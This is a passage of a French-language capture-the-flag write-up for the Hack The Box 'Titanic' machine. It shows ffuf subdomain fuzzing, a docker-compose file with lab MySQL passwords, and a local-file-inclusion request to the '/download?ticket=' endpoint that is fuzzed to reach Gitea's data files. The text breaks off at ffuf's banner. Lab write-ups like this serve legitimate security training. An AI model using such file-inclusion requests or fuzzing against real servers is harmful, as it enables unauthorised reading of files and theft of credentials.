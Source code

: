 ```bash
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.titanic.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

dev                     [Status: 200, Size: 13983, Words: 1107, Lines: 276, Duration: 135ms]
```

### Gitea
**dev.titanic.htb** redirige vers une page **Gitea**.

### Mysql password
```bash
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```

### Fuzzing with ffuf
En faisant du fuzzing avec des plusieurs wordlists, on finit par trouver le fichier **app.ini** et surtout le working directory de gitea.
Sur l'interface web de gitea on avait trouvé l'info le dossier :
/home/developer/gitea/data

Mais il m'a fallu beaucoup de temps/fuzzing pour trouver qu'il fallait à nouveau écrire gitea...

J'ai utilisé la LFI, sous forme d'une requete ".req" récupérer sur BURP. Je mettais le mot "FUZZ" au bonne endroit dans la requete, donc apres le dossier data au début.
```bash
GET /download?ticket=/home/developer/gitea/data/FUZZ HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
Voici l'execution de ffuf ensuite en utilisant notre requete et une liste de mot de passe:
```bash
┌──(kali㉿kali)-[~/htb/Titanic]
└─$ ffuf -request download.req -request-proto http -t 64 -w ./gitea_wordlist.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
```